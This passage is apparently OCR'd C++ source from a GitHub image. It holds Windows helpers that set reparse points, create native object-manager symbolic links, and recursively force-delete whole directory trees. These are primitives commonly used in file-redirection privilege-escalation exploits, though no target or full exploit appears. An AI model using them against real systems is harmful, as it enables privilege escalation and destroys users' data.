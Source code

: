 ```cpp
	bool ret = DeviceIoControl(hdir, FSCTL_SET_REPARSE_POINT, rdb, totalsz, nullptr, NULL, &cb, NULL) == TRUE;
	_NtClose(hdir);
	return ret;
}

HANDLE CreateNativeSymlink(std::wstring link, std::wstring target) {
	HANDLE ret;
	UNICODE_STRING ulnk;
	UNICODE_STRING utarget;
	NTSTATUS status;
	_RtlInitUnicodeString(&ulnk, link.c_str());
	_RtlInitUnicodeString(&utarget, target.c_str());

	OBJECT_ATTRIBUTES objattr;
	InitializeObjectAttributes(&objattr, &ulnk, OBJ_CASE_INSENSITIVE, nullptr, nullptr);

	NTSTATUS stat = _NtCreateSymbolicLinkObject(&ret, SYMBOLIC_LINK_ALL_ACCESS,
		&objattr, &utarget);

	if (stat != STATUS_SUCCESS) {
		SetLastErr(_RtlNtStatusToDosError(stat));
		return nullptr;
	}
	return ret;
}

DWORD DeleteAllFiles(LPCWSTR szDir, DWORD recur) {
	HANDLE hSrch;
	WIN32_FIND_DATA wfd;
	DWORD res = 1;

	TCHAR DelPath[MAX_PATH];
	TCHAR FullPath[MAX_PATH];
	TCHAR TempPath[MAX_PATH];

	lstrcpy(DelPath, szDir);
	lstrcpy(TempPath, szDir);
	if (lstrcmp(DelPath + lstrlen(DelPath) - 4, L"\\*.*") != 0) {
		lstrcat(DelPath, L"\\*.*");
	}

	hSrch = FindFirstFile(DelPath, &wfd);
	if (hSrch == INVALID_HANDLE_VALUE) {
		if (recur > 0) RemoveDirectory(TempPath);
		return -1;
	}

	while (res) {
		wsprintf(FullPath, L"%s\\%s", TempPath, wfd.cFileName);

		if (wfd.dwFileAttributes & FILE_ATTRIBUTE_READONLY) {
			SetFileAttributes(FullPath, FILE_ATTRIBUTE_NORMAL);
		}

		if (wfd.dwFileAttributes & FILE_ATTRIBUTE_DIRECTORY) {
			if (lstrcmp(wfd.cFileName, L".")
				&& lstrcmp(wfd.cFileName, L"..")) {
				recur++;
				DeleteAllFiles(FullPath, recur);
				recur--;
			}
		}
```